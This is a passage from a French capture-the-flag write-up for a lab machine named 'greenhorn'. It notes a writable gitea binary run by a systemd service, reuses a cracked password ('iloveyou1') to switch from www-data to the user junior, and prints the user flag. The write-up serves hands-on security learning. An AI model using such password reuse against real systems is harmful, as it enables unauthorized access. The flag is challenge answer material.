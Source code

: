 En examinant les permissions sur le fichier, on dirait que junior a installé gitea mais a mal configuré les permission.
On semble pouvoir écrire sur le fichier `/usr/local/bin/gitea`, qui est lui appelé par le service `/etc/systemd/system/gitea.service`.

Puisque c'est lui qui a configuré gitea et que selon le commit c'est lui qui a uploadé le fichier `pass.php` que nous avons cracké plus tôt, on réessaye le même mot de passe, `iloveyou1`:

```bash
www-data@greenhorn:/$ su junior
su junior
Password: iloveyou1
whoami
junior
ls -la
total 76
drwxr-xr-x  20 root root  4096 Jun 20 07:06 .
drwxr-xr-x  20 root root  4096 Jun 20 07:06 ..
lrwxrwxrwx   1 root root     7 Feb 16 18:37 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Jul 15 05:51 boot
dr-xr-xr-x   2 root root  4096 Jun 20 06:36 cdrom
drwxr-xr-x   2 root root  4096 Jun 20 06:36 data
drwxr-xr-x  20 root root  4020 Jul 25 02:41 dev
drwxr-xr-x 107 root root  4096 Jul 15 05:42 etc
drwxr-xr-x   4 root root  4096 Jun 20 06:36 home
lrwxrwxrwx   1 root root     7 Feb 16 18:37 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Feb 16 18:37 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Feb 16 18:37 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Feb 16 18:37 libx32 -> usr/libx32
drwx------   2 root root 16384 Apr 10 23:33 lost+found
drwxr-xr-x   2 root root  4096 Jun 20 06:36 media
drwxr-xr-x   2 root root  4096 Jun 20 06:36 mnt
drwxr-xr-x   2 root root  4096 Jun 20 06:36 opt
dr-xr-xr-x 294 root root     0 Jul 25 02:41 proc
drwx------   5 root root  4096 Jul 25 02:48 root
drwxr-xr-x  28 root root   820 Jul 25 03:32 run
lrwxrwxrwx   1 root root     8 Feb 16 18:37 sbin -> usr/sbin
drwxr-xr-x   2 root root  4096 Jun 20 06:36 srv
dr-xr-xr-x  13 root root     0 Jul 25 02:41 sys
drwxrwxrwt  12 root root  4096 Jul 25 03:09 tmp
drwxr-xr-x  14 root root  4096 Jun 20 06:36 usr
drwxr-xr-x  13 root root  4096 Jun 20 06:36 var
```

Une fois connecté en tant que `junior`, on va afficher le flag utilisateur:

```bash
cd /home/junior
ls
user.txt
Using OpenVAS.pdf
cat user.txt
0dda172dbf48af3adec9fa5e73b7a090
```

